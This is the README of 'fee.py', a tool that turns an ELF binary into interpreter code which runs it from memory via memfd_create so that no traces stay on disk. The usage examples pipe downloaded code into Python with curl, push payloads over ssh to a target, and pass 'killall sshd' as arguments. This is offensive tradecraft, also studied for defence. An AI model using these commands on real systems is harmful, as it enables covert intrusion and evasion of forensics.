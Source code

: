 ## Execute ELF files on a machine without dropping an ELF

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

### Description

This Python script generates interpreted code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 or later (for `memfd_create` support)
 * An interpreter. Any of these:
   * Python 2
   * Python 3
   * Perl
   * Ruby

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

Alternatively, you may generate Perl or Ruby code instead with the `--lang` flag (`-l`) (requires entering the target architecture manually):
```console
$ ./fee.py /path/to/binary -l pl -t amd64 | perl
```

```console
$ ./fee.py /path/to/binary -l rb -t amd64 | ruby
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c` (or `perl -e`, `ruby -e` accordingly):

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```console
$ ./fee.py -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__NB!__ By default, the script uses libc to resolve the right syscall number for `memfd_create` on the target in order to be as platform-agnostic as possible. If this fails (old or unsupported libc) or you're generating Perl code, you can use the `--target-architecture` (`-t`) flag to explicitly generate a syscall number.
For more exotic platforms, you should specify the syscall number manually. You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest. You can then specify the syscall number using the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-t ARCH | -s NUM] [-a ARGV] [-l LANG] [-c] [-p PATH] [-w CHARS] [-z LEVEL]
              path

Print code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -t ARCH, --target-architecture ARCH
                        target platform for resolving memfd_create (default: resolve symbol via
                        libc)
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target platform
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied to execle (default:
                        path to file as argv[0])
  -l LANG, --language LANG
                        language for the generated code (default: python)
  -c, --with-command    wrap the generated code in a call to an interpreter, for piping directly
                        into ssh
  -p PATH, --interpreter-path PATH
                        path to interpreter on target if '-c' is used, otherwise a sane default is
                        used
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to wrap to a newline
                        (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```
